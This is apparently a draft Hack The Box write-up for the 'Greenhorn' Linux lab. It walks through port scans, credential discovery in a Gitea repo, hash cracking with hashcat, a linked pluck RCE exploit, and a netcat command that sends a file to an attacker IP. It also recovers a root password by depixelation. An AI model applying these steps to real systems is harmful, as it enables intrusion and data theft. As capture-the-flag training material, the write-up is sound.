 +++
title = 'Greenhorn'
date = 2024-08-24T16:50:47-04:00
draft = true
tags = ["linux"]
category = ["htb"]
summary = "HTB - Linux - Easy"
+++

# Enum



## Port Scanning
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
|_  256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request

```


## 80/ nginx 1.18.0
```bash
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

```bash
/login.php            (Status: 200) [Size: 1242]
/images               (Status: 301) [Size: 178] [--> http://greenhorn.htb/images/]
/admin.php            (Status: 200) [Size: 4026]
/install.php          (Status: 200) [Size: 4035]
/files                (Status: 301) [Size: 178] [--> http://greenhorn.htb/files/]
/data                 (Status: 301) [Size: 178] [--> http://greenhorn.htb/data/]
/docs                 (Status: 301) [Size: 178] [--> http://greenhorn.htb/docs/]
/requirements.php     (Status: 200) [Size: 4047]

```


We find a hostname to add to our /etc/hosts `greenhorn.htb`. Checked for vhosts and didn't find any.


Powered by pluck

`login.php` file gives us a version `pluck 4.7.18`


Checking searchsploit shows a potential exploit



We need to be authenticated to run it.


## 3000/http

```bash
/admin                (Status: 303) [Size: 38] [--> /user/login]
/v2                   (Status: 401) [Size: 50]
/issues               (Status: 303) [Size: 38] [--> /user/login]
/explore              (Status: 303) [Size: 41] [--> /explore/repos]
/notifications        (Status: 303) [Size: 38] [--> /user/login]
/milestones           (Status: 303) [Size: 38] [--> /user/login]

```



No vhosts found.

Found a version on the `/admin` page


`[Powered by Gitea](https://about.gitea.com) Version: 1.21.11`

This looks to be a pretty recent version


Since we know we need a password to login as admin to the pluck app on port 80, we can check the gitea site and see if we can find any creds within the repo or within past commits.

Start by cloning the repo locally:
```bash
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ git clone http://greenhorn.htb:3000/GreenAdmin/GreenHorn.git
```



Nothing interesting there, just the one commit for the repo. Looking at documentation for pluck, we see it doesn't use a database but stores everything in files. Did the new dev upload that file as well? yep




We can crack the hash with hashcat:
```bash
┌──(fish㉿kali)-[~/htb/greenhorn/GreenHorn/files]
└─$ hashcat hash.txt /usr/share/wordlists/rockyou.txt -m 1700
...
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163:iloveyou1

```

`admin:iloveyou1` allows us to login and now we can try the rce exploit (CVE-2023-50564).

---
# Foothold

Created a python script to exploit this in one shot >> https://raw.githubusercontent.com/thefizzyfish/CVE-2023-50564-pluck/main/CVE-2023-50564.py





We can list what's in `junior`'s home dir but can't read the flag


## Exploits
CVE-2023-50564
https://github.com/thefizzyfish/CVE-2023-50564-pluck

--- 
# PrivEsc

We can't ssh into the box as junior with the `iloveyou1` password as it requires public keys.


We can switch to junior with `su`


Interesting linpeas output:


We could try replacing the gitea executable with a rev shell to pivot to the gitea user?
That might be rabbit hole as the file is busy whenever I try to replace it


Looking back at `junior`'s home directory finds an interesting pdf we can send to our box to take a look at
```bash
# On remote host
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
junior@greenhorn:~$ cat 'Using OpenVAS.pdf' | nc 10.10.14.7 1234
junior@greenhorn:~$ 

# On local host
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ nc -l -p 1234 -q 1 > 'Using OpenVAS.pdf' < /dev/null

```


Interesting but checking the file system for openvas doesn't turn anything up. We can try to depixilate the password with a tool named `depix` >> https://github.com/spipm/Depix

First extract the image from the pdf
```bash
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ pdfimages "./Using OpenVAS.pdf" greenhorn
```
Run the tool against the created image:
```bash
┌──(fish㉿kali)-[~/htb/greenhorn]
└─$ python3 Depix/depix.py -p greenhorn-000.ppm -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png
...
2024-08-24 16:20:06,891 - Saving output image to: output.png

```


```txt
root:sidefromsidetheothersidesidefromsidetheotherside
```


And that's all folks

## Exploits


---


# Post/Pivot



---

